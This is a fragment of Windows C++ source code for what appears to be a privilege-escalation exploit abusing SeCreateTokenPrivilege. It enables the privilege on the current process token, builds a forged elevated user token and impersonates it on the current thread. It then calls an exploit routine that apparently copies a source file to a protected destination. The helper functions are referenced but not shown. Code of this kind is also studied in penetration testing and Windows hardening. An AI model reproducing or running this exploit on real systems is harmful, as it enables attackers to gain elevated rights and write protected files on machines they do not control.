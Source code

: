 ```c++
            wprintf(L"[-] Invalid Argument: %s.\n", argv[1]);
            return 0;
        }

        ++argv;
        --argc;
    }

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
    {
        wprintf(L"[-] OpenProcessToken Error: [%u].\n", GetLastError());
        return 0;
    }

    // Enable SeCreateTokenPrivilege for the current process token.
    if (!EnableTokenPrivilege(hToken, SE_CREATE_TOKEN_NAME))
    {
        wprintf(L"[-] Failed to enable SeCreateTokenPrivilege for the current process token.\n");
        return 0;
    }

    pElevatedToken = CreateUserToken(hToken);
    if (pElevatedToken == NULL)
    {
        wprintf(L"[-] Failed to create user token.\n");
        return 0;
    }

    if (!DisplayTokenInformation(pElevatedToken))
    {
        wprintf(L"[-] Failed to get S4U token information.\n");
        return 0;
    }

    hThread = GetCurrentThread();

    if (!SetThreadToken(&hThread, pElevatedToken))
    {
        wprintf(L"[-] SetThreadToken Error: [%u].\n", GetLastError());
        return 0;
    }
    wprintf(L"\n[*] Successfully impersonated the elevated token.\n");

    if (!ExploitSeCreateTokenPrivilege(sourceFile, destFile))
    {
        wprintf(L"[-] Failed to exploit SeCreateTokenPrivilege.\n");
        return 0;
    }
}
```

